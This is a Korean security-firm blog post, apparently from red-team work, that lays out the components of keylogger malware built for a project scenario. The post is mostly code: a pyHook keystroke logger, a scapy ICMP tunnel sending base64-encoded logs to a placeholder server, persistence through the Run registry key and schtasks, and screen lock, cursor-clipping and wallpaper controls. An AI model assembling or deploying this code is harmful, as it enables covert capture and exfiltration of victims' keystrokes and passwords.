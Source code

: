 ```yaml
---
layout: post
title: "Keylogger & Other Functions"
author: "Gurumi"
comments: true
tags: [programming, etc]
---
```


라온화이트햇 핵심연구팀 조운삼

## I. Intro

---

지난 프로젝트 투입 때, 수행한 시나리오에서 사용된 Keylogger 형태의 악성코드를 제작&배포 했을 때 사용한 기능들에 대해 정리해봤습니다.  추후 유사한 내용의 프로젝트 혹은 개발시 참고하면 감사하겠습니다. (개발에 사용한 언어는 Python입니다.)

## II. Functions

---

### II-01 .Keylogger

주요 기능중 하나인 Keylogger 기능은 pyHook을 이용하여 구현하였습니다. 

```python
import pyHook

hm=pyHook.HookManager()
hm.KeyDown=OnKeyboardEvent
hm.KeyUp=OnKeyboardEvent
```

보통은 `KeyDown`을 이용하여 입력 키를 파악하는 것이 일반적이지만 Shift 키를 이용한 특수문자 입력 혹은 Ctrl, Alt 키를 이용한 기타 키보드 이벤트를 구분하기 위해 `KeyDown`, `KeyUp`을 이용하여 키보드 이벤트를 구분하였습니다.

```python
def keyboardEventDebug(event):
    print('========================================\n')
    print('MessageName: {}'.format(event.MessageName))
    print('Message: {}'.format(event.Message))
    print('Time: {}'.format(event.Time))
    print('Window: {}'.format(event.Window))
    print('WindowName: {}'.format(event.WindowName))
    print('Ascii: {}'.format(event.Ascii))
    print('Key: {}'.format(event.Key))
    print('KeyID: {}'.format(event.KeyID))
    print('ScanCode: {}'.format(event.ScanCode))
    print('Extended: {}'.format(event.Extended))
    print('Injected: {}'.format(event.Injected))
    print('Alt: {}'.format(event.Alt))
    print('Transition: {}'.format(event.Transition))
    print('========================================\n')
```

pyHook에서 이벤트 발생시 이벤트 객체에 포함되어 있는 구성 요소들입니다. `event.Message`를 통해 KeyDown(256), KeyUp(257)을 구분할 수 있습니다.

`event.Ascii` 혹은 `event.KeyID`를 사용해 입력된 키를 구별할 수 있습니다.( `event.KeyID`를 사용할 경우 좀 더 다양한 키 이벤트를 구별 할 수 있지만, KeyID에 대해 사전에 파악해야 합니다.)

```python
def OnKeyboardEvent(event):
    global lst

    if event.Key=='Scroll':
        os._exit(0)

    # capture the keystrokes
    if event.KeyID !=0:
        keylogs=''
        if event.KeyID==160 and event.Message==256:
            keylogs='[L_Shift Down]'
        elif event.KeyID==160 and event.Message==257:
            keylogs='[L_Shift UP]'
        elif event.KeyID==161 and event.Message==256:
            keylogs='[R_Shift Down]'
        elif event.KeyID==161 and event.Message==257:
            keylogs='[R_Shift UP]'
        elif event.KeyID==162 and event.Message==256:
            keylogs='[L_Control Down]'
        elif event.KeyID==162 and event.Message==257:
            keylogs='[L_Control UP]'
        else:
            if event.Message == 256:
                if event.KeyID==8:
                    keylogs='[Backspace]'
                elif event.KeyID==9:
                    keylogs='[Tab]'
                elif event.KeyID==13:
                    keylogs='[Enter]'
                elif event.KeyID==20:
                    keylogs='[Caps Lock]'
                elif event.KeyID==21:
                    keylogs='[Hangul]'
                elif event.KeyID==32:
                    keylogs='[Space]'
                elif event.KeyID==127:
                    keylogs='[Delete]'
                elif event.KeyID==186:
                    keylogs=';'
                elif event.KeyID==187:
                    keylogs='+'
                elif event.KeyID==188:
                    keylogs=','
                elif event.KeyID==189:
                    keylogs='-'
                elif event.KeyID==190:
                    keylogs='.'
                elif event.KeyID==191:
                    keylogs='/'
                elif event.KeyID==192:
                    keylogs='`'
                elif event.KeyID==219:
                    keylogs='['
                elif event.KeyID==220:
                    keylogs='\\'
                elif event.KeyID==221:
                    keylogs=']'
                elif event.KeyID==222:
                    keylogs='\''
                else:
                    keylogs=event.Key
        if keylogs != '':
            lst.append(keylogs)
    
    return True
```

해당 Keylogger는 키 로그를 `lst`에 저장해 놓도록 되어 있고, 공백류 문자(Enter, Tab, Space)가 입력될 경우 로그를 전송하도록 구현되어 있으며 알파벳과 숫자를 제외한 문자들에 대해 좀 더 직관적으로 파악하기 위해 `KeyID`를 사용해 구분하고 별도의 문자열로 구분했습니다.

### II-02 ICMP Tunneling

```python
# ICMP Tunneling Client
from scapy.all import *

def sendICMP(msg):
    ip = IP(dst='Server IP')/ICMP()/msg.encode('base64').strip()
    send(ip)

# ICMP Tunneling Server
def sniffICMP():
    while True:
				rx = sniff(filter="icmp", count=1)
        return rx[0][Raw].load.decode('base64')
```

로그를 전송하는 부분에서 `scapy`모듈을 사용하여 ICMP Tunneling Server, Client를 구현하였습니다.

base64로 인코딩하여 전송하는 것은 시나리오 수행상 필요한 부분이므로 제거해도 무관합니다.

### II-03 ClipCursor

[ClipCursor function (winuser.h) - Win32 apps](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-clipcursor)

```python
import win32api

def moveCursor():
	win32api.ClipCursor((upper-left x-coordinate, upper-left y-coordinate, lower-right x-coordinate, lower-right y-coordinate))
```

해당 기능은 Windows에서 클라이언트의 마우스 커서의 행동 영역을 제한하는 기능입니다. `ClipCursor`의 인자로 빈 값이나 (0,0,0,0)을 넣을 경우 행동 영역 제한이 해제됩니다.

### II-04 Schedule

[schtasks](https://docs.microsoft.com/ko-kr/windows-server/administration/windows-commands/schtasks)

![/assets/sam0700.png](/assets/sam0700.png)

```bash
2020/07/03 14:30에 "Task Command"를 한 번 실행시키는 작업을 "Task Name"이라는 이름으로 작업 스케줄 등록
ex) SCHTASKS /create /sc ONCE /SD 2020/07/03 /ST 14:30 /TN "Task Name" /TR "Task Command"

/create 작업 스케줄 생성
/delete 작업 스케줄 삭제
ex) SCHTASKS /delete /Tn "My Task"
/run 등록된 작업 스케줄 (원격/로컬)실행
ex) SCHTASKS /run /Tn "My Task"
/end 작업 스케줄에 의해 실행된 프로그램 (원격/로컬)중지

/sc MINUTE|HOURLY|DAILY|WEEKLY|MONTHLY 매분|시간|일|주|달 마다 실행
/sc ONCE 지정된 날짜 및 시간에 한 번 실행
/sc ONSTART 시스템 시작시 실행
```

Windows에서 제공하는 작업 스케줄러 등록하는 기능입니다. 시나리오 수행에 특정 날짜와 시간대에 동작하도록 하는 기능이 요구되어 구현했습니다.

***시작 프로그램**

```python
from _winreg import *

keyVal = r'Software\Microsoft\Windows\CurrentVersion\Run'
key2change = OpenKey(HKEY_CURRENT_USER, keyVal, 0, KEY_ALL_ACCESS)
SetValueEx(key2change, 'MY Execution', 0, REG_SZ, path)
```

작업 스케줄러에 작업 등록과 별개로 "시작 프로그램"에 프로그램 실행을 등록시킬 경우 레지스트리에 등록하면 됩니다.

### II-04 ETC

**Screen Lock**

```bash
# 사용자의 화면을 잠금화면으로 전환
rundll32.exe user32.dll, LockWorkStation
```

O**pen Image**

```bash
#전체화면으로 open
start "" /max "imagePath"
```

**Change Wallpaper**

```python
# 지정된 경로의 이미지로 시스템 배경화면 변경
import ctypes
SPI_SETDESKWALLPAPER = 20 
ctypes.windll.user32.SystemParametersInfoA(SPI_SETDESKWALLPAPER, 0, image_Path , 0)
```

3개 기능 모두 Windows 화면제어에 관한 기능을 수행합니다.
